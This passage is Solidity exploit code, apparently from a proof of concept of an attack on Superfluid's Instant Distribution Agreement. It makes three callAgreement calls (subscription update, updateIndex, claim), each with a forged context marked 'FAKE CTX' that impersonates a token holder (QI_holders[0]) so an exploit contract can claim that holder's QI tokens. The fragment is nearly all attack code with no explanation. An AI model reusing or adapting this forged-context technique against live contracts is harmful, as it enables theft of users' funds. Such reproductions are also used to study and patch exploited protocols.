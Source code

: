 ```
                98789, // indexId
                exploit_contract, // subscriber
                balance, // units
                abi.encode( // ctx
                    abi.encode(
                        0, // callInfo uint256
                        0, // timestamp
                        QI_holders[0], // msgSender
                        0, // agreementSelector
                        new bytes(0) // userData
                    ),
                    abi.encode(
                        0, // allowanceIO
                        0, // appAllowanceUsed
                        address(0), // appAddress
                        address(0) // appAllowanceToken
                    )
                ), // !! FAKE CTX !!
                new bytes(0) // placeHolderCtx
            ),
            new bytes(0)
        );


        sf_proxy.callAgreement( // 0x39255d5b
            ISuperAgreement(IDA),
            abi.encodeWithSelector(
                IInstantDistributionAgreementV1.updateIndex.selector, // 7fbc7639
                QI_proxy,
                98789, // indexId
                1, // indexValue
                abi.encode(
                    abi.encode(
                        0, // callInfo uint256
                        0, // timestamp
                        QI_holders[0], // msgSender
                        0, // agreementSelector
                        new bytes(0) // userData
                    ),
                    abi.encode(
                        0, // allowanceIO
                        0, // appAllowanceUsed
                        address(0), // appAddress
                        address(0) // appAllowanceToken
                    )
                ), // !! FAKE CTX !!
                new bytes(0) // placeHolderCtx
            ),
            new bytes(0)
        );


        sf_proxy.callAgreement(
            ISuperAgreement(IDA),
            abi.encodeWithSelector(
                IInstantDistributionAgreementV1.claim.selector,  // 0xacafa1b8
                QI_proxy, // token
                QI_holders[0], // publisher
                98789, // indexId
                exploit_contract, // subscriber
                new bytes(0) // placeHodler ctx
            ),
            new bytes(0) // user data
```